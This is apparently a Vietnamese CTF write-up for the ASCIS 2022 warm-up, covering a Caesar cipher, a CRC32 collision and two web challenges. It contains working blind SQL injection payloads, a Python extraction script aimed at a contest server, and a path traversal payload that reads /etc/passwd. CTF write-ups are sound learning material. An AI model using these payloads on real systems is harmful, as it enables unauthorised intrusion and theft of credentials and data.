 ```yaml
---
description: 'Note : A JOURNEY TO GAIN KNOWLEDGE'
---
```


# ASCIS 2022 - warm up

## Crypto

### I came, I saw, I conquered

#### chall

```
jhlzhy dhz h wvspapjphu huk nlulyhs vm aol shal yvthu ylwbispJ, dov nylhasf lealuklk aol yvthu ltwpyl ilmvyl zlpgpun wvdly huk tHrpun optzlsm kpjahavy vm yvtl, whcpun aol dhf mvy aol ptwlyphs zfzalt.

qbspbz jhlzhy dhz ivyu pu yvtL vu 12 vy 13 qbsf 100 ij puav aol wylzapnpvbz qbsphu jshu. opz mhtpsf dlyl jsvzlsf jvuuljalk dpao aol thyphu mhjapvu pu yvthu wvspapjz. jhlzhy optzlsm wyvnylzzlk dpaopu aol yvthu wvspapjhs zfzalt, iljvtpun pu zbjjlzzpvu xbhlZavy (69), hlkpsl (65) huk wyhlavy (62). pu 61-60 ij ol zlyclk hz nvclyuvy vm aol yvtHu wyvcpujl vm zwhpu. ihjr pu yvtl pu 60, jhlzhy thkl h whja dpao wvtwlf huk jyhzzbz, dov olswlk opt av nla lsljalk hz jvuzbs mvy 59 ij. aol mvssvdpun flhy ol dhz hwwvpualk nvclyuvy vm yvthu nhbs dolyl ol zahflk mvy lpnoa flhyz, hkkpun aol dovsl vm tvklYu myhujl huk ilsnpbt av aol yvthu ltwpyl, huk thrPun yvtl zhml myvt aol wvzzpipspaf vm nhsspj puchzpvuz. ol thkl adv lewlkpapvuz av iYpahpu, pu 55 ij huk 54 ij.

jhlzhy aolu yLabyulk av pahsf, kpzylnhykpun aol Hbaovypaf vm aol zluhal huk mhtvbzsf jyvzzpun aol ybipjvu ypcly dpaovba kpzihukpun opz hytf. pu aol luzbpun jpcps dhy jhlzhy klmlhalk aol ylwbispjhu mvyjlz. wvtwlf, aolpy slhkly, mslk av lnfwa dolyl ol dhz hzzhzzpuhalk. jhlzhy mvssvdlk opt huk iljhtl yvthuapjhSsf pucvsclk dpao aol lnfwaphu xbllu, jslvwhayh.

jhlzhy dhz uvd thzaly vm yvtl huk thkl optzlsm jvuzbs huk kpjahavy. ol bzlk opz wvdly av jhyyf vba tbjo-ullklk ylmvyt, ylsplcpun klia, lushynpun aol zluhal, ibpskpun aol mvybt pbspbt huk ylcpzpun aol jhslukhy. kpjahavyzopw dhz hsdhfz ylnhyklk h altwvyhyf wvzpapvu iba pu 44 ij, jhlzhy avvr pa mvy spml. opz zbjjlzz huk htipapvu hspluhalk zayvunsf ylwbispjhu zluhavyz. h nyvbw vm aolzl, slk if jhzzpbz huk iybabz, hzzhzzpuhalk jhlzhy vu aol pklz (15) vm thyjo 44 ij. aopz zwhyrlk aol mpuhs yvbuk vm jpcps dhyz aoha luklk aol ylwbispj huk iyvbnoa hivba aol lslchapvu vm jhlzhy'z nylha ulwold huk klzpnuhalk olpy, vjahcphu, hz hbnbzabz, aol mpyza ltwlyvy.
```

#### Work-flow

* Brute Decryt Caesar -> với key bằng 7 ta có được plaintext
* Để ý các chữ cái viết hoa
* Viết một đoạn script ngắn nối chúng lại

#### solve

```python
f = open("cipher.txt", "r")
cipher = f.read()
import string 
alpha = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"
for i in cipher: 
	if i == i.upper() and i in alpha :
		print(i, end="")
```

### Checksum

#### Chall

```python
import binascii

FLAG = 'ASCIS{XXXXXXXXXXX}'

def check_key(passwd):
    if len(passwd) < 16:
        return False
    if binascii.crc32(passwd.encode()) != binascii.crc32(FLAG.encode()):
        return False
    return True

password = input('What is the password?: ')
if check_key(password):
    print('Correct! Here is the flag: ' + FLAG)
else:
    print('Sorry! This is the hash we want:' + str(hex(binascii.crc32(FLAG.encode()))))
```



#### Work-flow

* Từ code ta phân tích được cần tìm một chuỗi có crc32 trùng với crc32 của FLAG
* Lúc này ta nhập bừa trước để có crc32 của flag
* Nhập thử nhiều lần để chắc rằng flag không bị refresh

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

* Đến đây ta decode hex và tìm được crc32 cần phải có là: **1706263782**

Lúc mới vào nhìn bài 1 mình hơi phân vân nên có nhảy sang bài 2 scout trước, ai ngờ đề có lỗi do không có trường hợp else để ra dạng crc32 của FLAG, lúc đó mình hơi hoảng và tư duy theo hướng brute force như thế nào?

Search quanh một xíu được vài tài liệu hay ho, chuẩn bị bắt tay vào code ... thì BTC fix lại đề, cập nhập thêm vế else uiiii thiên thời địa lợi nhân hòa, đến đây thì như cá gặp được nước rồi :)).

* Mình tìm được doc [<mark style="color:blue;">này</mark>](https://github.com/fyxme/crc-32-hash-collider)<mark style="color:blue;"></mark>
* Người ta đã code sẳn tool rồi việc còn lại là đổi số **target** và **length** string cần tìm

```
const target = 1706263782 & 0xffffffff

// max string length
maxLen := 16
```

#### solve

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption><p>Lúc brute tool này thì cơ bản xem máy nào mạnh hơn thôi</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption><p>Lâu lâu hóa chaos được lần </p></figcaption></figure>

* Kỉ niệm lâu lâu được lần solve thứ 2 :smile:

## WEB

### AscisStore1

#### chall

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption><p>Trang web bán hàng có chức năng login và register</p></figcaption></figure>

#### Work-flow

* Chọt phá dòng quanh -> khai thác SQLi ở login
* Khi thực hiện đăng nhập vào một user đã register -> sẽ đăng nhập vào tài khoản với tên user tương ứng hiện ở góc trên bên trái
* Ở login phần username, thử đoạn payload quốc dân:

```
' or 1=1 --  
```

* Lúc này nhận thấy server trả về với user **`flag`**
* Thử với username như sau (có khoảng trắng ở sau dấu comment -- )

```
' or ord(substring(password,1,1)) = 65 --  
```

<figure><img src="../../.gitbook/assets/image (1) (5).png" alt=""><figcaption><p>Thử với 65 do ta biết chữ cái đầu tiên của format là A</p></figcaption></figure>

* Như vậy có thể đoán được khá chắc password của user **flag** chính là secret cần tìm
* Lúc này ta chỉnh lại query userser cho đúng với target, để tránh brute force sai

```
flag' and ord(substring(password,{index},1)) = {char} -- 
```

* and ở đây để cố định password cho username đã biết là: **`flag`**
* Nếu dùng or như ở trên sẽ dẫn đến trường hợp kết quả password query được chính là của toàn bộ database -> brute sai
* Ở đây mình không dùng query ở dạng char để so sánh vì SQL không phân biệt chữ hoa hay chữ thường, đúng vậy 's' = 'S' là **true** đấy. Lúc còn 30' cuối một thằng trong team la lên mới nhận ra chổ này, chuyển sang lại dec để brute, nếu không hẳn là quằng lắm :)).

#### solve

```python
import request

url = "http://34.143.158.202:4111/index.php?page=login"
#SELECT * from users WHERE username='flag' AND ord(substring(password,{index},1)) = {char} -- '

def solve():
	index = 1
	flag = ""
	while True:
		for char in range(32,128):
			usernamefield = f"flag' and ord(substring(password,{index},1)) = {char} -- "
			print(chr(char))
			passwordfield = "a"
			postParam = {'username': usernamefield, 'password': passwordfield}
			response = requests.post(url, data=postParam)
			if "flag" in response.text:
				flag += chr(char)
				print("index:",index,"  ", flag )
				index +=1
				break
		if flag.endswith("}"):
			break


solve()py
#index: 23    ASCIS{SQ11-I5-t0o-EA$Y}
```

### AscisStore2

#### Chall

<figure><img src="../../.gitbook/assets/image (42).png" alt=""><figcaption><p>web bán hàng tương tự bài trên nhưng có chức năng profile</p></figcaption></figure>

#### Work-flow

* Chấm mút quanh chức năng mới -> chức năng profile cho đăng ảnh lên
* Rất có khả năng là File up load to RCE hoặc path travesal
* Up thử tấm ảnh nyc lên :

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

* Sau khi up lên ta thấy path trong đó có file image.php thì không còn nghi ngờ gì nữa -> path traversal for sure

<figure><img src="../../.gitbook/assets/image (2) (3).png" alt=""><figcaption></figcaption></figure>

#### solve

* Lần theo path rồi thử mọi cách path traversal thoi, chân ái is here:

```
....//....//....//....//....//....//....//....//....//etc/passwd
```

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

## Lời thú tội của một đá thủ

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption><p>Top 10 khu vực miền nam - một câu RE2 chưa solve được</p></figcaption></figure>

> Gửi lời cảm ơn chân thành nhất đến với các người ae trong team
>
> Lâu rồi mới có cảm giác thú vị như những ngày đầu tiên tham gia CTF
>
> 4 tiếng thi đấu - Một ngày vui và học được nhiều thứ, đến lúc lui về ở ẩn rồi
>
> Cảm ơn ae.



Thanks for reading. Have a good day :heart: !
